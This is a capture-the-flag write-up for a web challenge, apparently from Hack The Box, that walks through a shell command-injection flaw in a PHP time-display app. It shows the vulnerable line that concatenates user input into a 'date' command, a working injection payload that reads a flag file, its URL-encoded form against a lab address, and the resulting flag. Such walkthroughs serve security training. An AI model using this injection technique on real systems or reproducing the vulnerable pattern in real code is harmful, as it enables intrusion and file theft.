 # TimeKORP

- attachments
  - [`web_timekorp.zip`](web_timekorp.zip)

## solution

Go to `http://94.237.55.185:45222/?format=%27;%20echo%20$(cat%20../flag)%20%27` in your browser, replacing the hostname with your own one. The flag will be shown clearly on the webpage. The flag is `HTB{t1m3_f0r_th3_ult1m4t3_pwn4g3}`.

## process

If you look at the webpage, it seems to be a website displaying the current time.

Since they have provided the source, it is best that we look into the source first. The flag location is apparent from the provided source.

Eventually, you will come across this suspicious code in [`web_timekorp/challenge/models/TimeModel.php`](web_timekorp/challenge/models/TimeModel.php):

```PHP
$this->command = "date '+" . $format . "' 2>&1";
```

One can guess that the string will be run in a shell. Then, clearly we need to do shell injection by selecting `$format` correctly:

```shell
date '$format' 2>&1
```

After some time, you can derive some shell code that reads the flag file by letting `$format` be `'; echo $(cat ../flag) '`:

```shell
date ''; echo $(cat ../flag) '' 2>&1
```

This will ignore the `date` command output, read the flag file and send it to stdout, which will then be shown on the webpage.

Last thing is that we need to URL encode the payload correctly to get the following URL: `http://94.237.55.185:45222/?format=%27;%20echo%20$(cat%20../flag)%20%27`. Your hostname may be different.

Go to the URL in the browser and you should see the flag shown very clearly in the text: `It's HTB{t1m3_f0r_th3_ult1m4t3_pwn4g3}.`

Finally, the flag is `HTB{t1m3_f0r_th3_ult1m4t3_pwn4g3}`.
